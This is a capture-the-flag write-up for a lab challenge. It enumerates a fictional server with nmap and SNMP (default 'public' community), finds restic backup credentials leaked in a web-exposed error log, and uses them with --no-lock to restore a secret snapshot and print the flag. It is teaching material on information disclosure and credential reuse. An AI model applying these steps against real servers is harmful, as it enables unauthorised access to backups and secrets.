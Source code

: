 # Admin Johnson

## Challenge

Hi, TCC-CSIRT analyst,

Admin Johnson began testing backup procedures on the server `johnson-backup.cypherfix.tcc`, but left the process incomplete due to other interesting tasks. Your task is to determine whether the current state is exploitable.

See you in the next incident!

## Solution

### 1. Enumeration

We started by scanning the target server for open ports:

```bash
nmap johnson-backup.cypherfix.tcc

PORT    STATE SERVICE
80/tcp  open  http
199/tcp open  smux
```

### 2. Inspecting the Web Server

We checked the web server at http://johnson-backup.cypherfix.tcc/, but it only displayed the default Apache page with no additional content.

### 3. SNMP Enumeration

Next, we enumerated the SNMP service running on the server using snmpwalk:

```bash
snmpwalk -v2c -c public johnson-backup.cypherfix.tcc
```

The output revealed several processes running on the server, including one of particular interest:

```
iso.3.6.1.2.1.25.4.2.1.5.18 = STRING: "-c /etc/scripts/restic.sh >> /var/www/html/1790c4c2883ad30be0222a3a93004e66/restic.err.log 2>&1"
```

### 4. Inspecting the Restic Log File

We fetched the error log using curl:

```bash
curl http://johnson-backup.cypherfix.tcc/1790c4c2883ad30be0222a3a93004e66/restic.err.log

restic -r rest:http://johnson:KGDkjgsdsdg883hhd@restic-server.cypherfix.tcc:8000/test check
using temporary cache in /tmp/restic-check-cache-3629819862
create exclusive lock for repository
Save(<lock/66761ff991>) returned error, retrying after 552.330144ms: server response unexpected: 500 Internal Server Error (500)
Save(<lock/66761ff991>) returned error, retrying after 1.080381816s: server response unexpected: 500 Internal Server Error (500)
...
```

The log provided valuable information, including a password for another backup server. The backup server `restic-server.cypherfix.tcc` and password `KGDkjgsdsdg883hhd` were discovered from the log.

### 5. Listing Snapshots

To bypass the locking issue mentioned in the log, we used the `--no-lock` parameter. Then, we listed available snapshots in the Restic repository:

```bash
restic -r rest:http://johnson:KGDkjgsdsdg883hhd@restic-server.cypherfix.tcc:8000/test snapshots --no-lock
enter password for repository: 
repository 902ea39d opened (version 2, compression level auto)
ID        Time                 Host          Tags        Paths
--------------------------------------------------------------------
8dfb6a02  2024-10-14 22:56:18  fcf671955256              /etc/secret
--------------------------------------------------------------------
1 snapshots
```

### 6. Restoring the Secret

We restored the contents of the /etc/secret directory from the snapshot:

```bash
restic -r rest:http://johnson:KGDkjgsdsdg883hhd@restic-server.cypherfix.tcc:8000/test restore 8dfb6a02 --target restore --no-lock
```

The snapshot contained a secret file, and after restoring it, we found the flag.

## Flag

```
FLAG{OItn-zKZW-cht7-RNH4}
```
